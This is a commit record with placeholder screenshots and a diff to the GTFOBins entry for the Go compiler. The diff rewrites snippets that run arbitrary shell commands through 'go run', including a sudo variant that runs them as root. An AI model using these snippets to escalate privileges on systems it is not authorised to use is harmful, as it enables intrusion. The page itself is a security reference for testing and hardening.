

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/go.md, in a window 1280 px wide. Shown: the top 786 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update go.md
Fixed A Bug with the GO Code

```diff
--- a/_gtfobins/go.md
+++ b/_gtfobins/go.md
@@ -1,25 +1,69 @@
 ---
 description: Go compiler binary. Can be abused to execute arbitrary commands or escalate privileges if run as root.
 functions:
-  command:
+  command-exec:
     - code: |
-        # Execute arbitrary commands using a temporary Go module
-        CMD="id"
-        mkdir /tmp/gomod && cd /tmp/gomod
+        # Execute arbitrary commands using Go and Bash heredoc
+        COMMAND="id"
+        mkdir -p /tmp/gomod && cd /tmp/gomod
         go mod init mod
-        echo "package main; import \"os/exec\"; func main() { exec.Command(\"/bin/sh\",\"-c\",\"$CMD\").Run() }" > main.go
-        go run main.go
+        cat > main.go << EOF
+        package main
+
+        import (
+            "fmt"
+            "os"
+            "os/exec"
+        )
+
+        func main() {
+            if len(os.Args) < 2 {
+                fmt.Println("Usage: go run main.go <command>")
+                return
+            }
+            cmd := exec.Command("/bin/sh", "-c", os.Args[1])
+            output, err := cmd.CombinedOutput()
+            if err != nil {
+                fmt.Printf("Error executing command: %v\n", err)
+                return
+            }
+            fmt.Printf(string(output))
+        }
+        EOF
+        go run main.go "$COMMAND"
   sudo:
     - code: |
         # Execute arbitrary commands as root
-        CMD="id"
-        mkdir /tmp/gomod && cd /tmp/gomod
+        COMMAND="id"
+        mkdir -p /tmp/gomod && cd /tmp/gomod
         sudo go mod init mod
-        echo "package main; import \"os/exec\"; func main() { exec.Command(\"/bin/sh\",\"-c\",\"$CMD\").Run() }" > main.go
-        sudo go run main.go
+        cat > main.go << EOF
+        package main
+
+        import (
+            "fmt"
+            "os"
+            "os/exec"
+        )
+
+        func main() {
+            if len(os.Args) < 2 {
+                fmt.Println("Usage: go run main.go <command>")
+                return
+            }
+            cmd := exec.Command("/bin/sh", "-c", os.Args[1])
+            output, err := cmd.CombinedOutput()
+            if err != nil {
+                fmt.Printf("Error executing command: %v\n", err)
+                return
+            }
+            fmt.Printf(string(output))
+        }
+        EOF
+        sudo go run main.go "$COMMAND"
 notes:
-  - "This abuses `go run` to execute arbitrary shell commands by creating a temporary Go module."
-  - "Requires Go compiler installed."
-  - "If run with root privileges, any command can be executed as root."
-  - "Temporary files are created in /tmp/gomod."
+  - "Creates a temporary Go module in /tmp/gomod and writes a Go program using heredoc."
+  - "Command to execute is passed as an argument to the Go program."
+  - "Works for normal user or with root (sudo)."
+  - "Temporary files are created in /tmp/gomod; cleanup recommended after use."
 ---
```
